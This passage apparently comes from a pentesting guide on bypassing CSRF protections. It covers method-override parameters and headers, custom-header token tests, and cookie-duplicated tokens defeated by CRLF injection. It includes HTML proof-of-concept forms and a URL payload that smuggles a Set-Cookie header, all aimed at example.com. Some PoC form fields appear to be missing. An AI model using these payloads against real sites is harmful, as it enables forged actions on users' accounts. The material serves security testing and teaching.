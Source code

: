 This can also work by sending the **`_method` parameter inside a POST body** or using override **headers**:

- `X-HTTP-Method`
- `X-HTTP-Method-Override`
- `X-Method-Override`

Common in frameworks like **Laravel**, **Symfony**, **Express**, and others. Developers sometimes skip CSRF on non-POST verbs assuming browsers can’t issue them; with overrides, you can still reach those handlers via POST.

Example request and HTML PoC:

```http
POST /users/delete HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin&_method=DELETE
```

```html
<form method="POST" action="/users/delete">
  <input name="username" value="admin">
  <input type="hidden" name="_method" value="DELETE">
  Delete User

</form>
```

### Custom header token bypass

If the request is adding a **custom header** with a **token** to the request as **CSRF protection method**, then:

- Test the request without the **Customized Token and also header.**
- Test the request with exact **same length but different token**.

### CSRF token is verified by a cookie

Applications may implement CSRF protection by duplicating the token in both a cookie and a request parameter or by setting a CSRF cookie and verifying if the token sent in the backend corresponds to the cookie. The application validates requests by checking if the token in the request parameter aligns with the value in the cookie.

However, this method is vulnerable to CSRF attacks if the website has flaws allowing an attacker to set a CSRF cookie in the victim's browser, such as a CRLF vulnerability. The attacker can exploit this by loading a deceptive image that sets the cookie, followed by initiating the CSRF attack.

Below is an example of how an attack could be structured:

```html
<html>
  <!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
  <body>
    <script>
      history.pushState("", "", "/")
    </script>
    <form action="https://example.com/my-account/change-email" method="POST">
      
      
      
    </form>
    ![](https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E)
  </body>
</html>
```
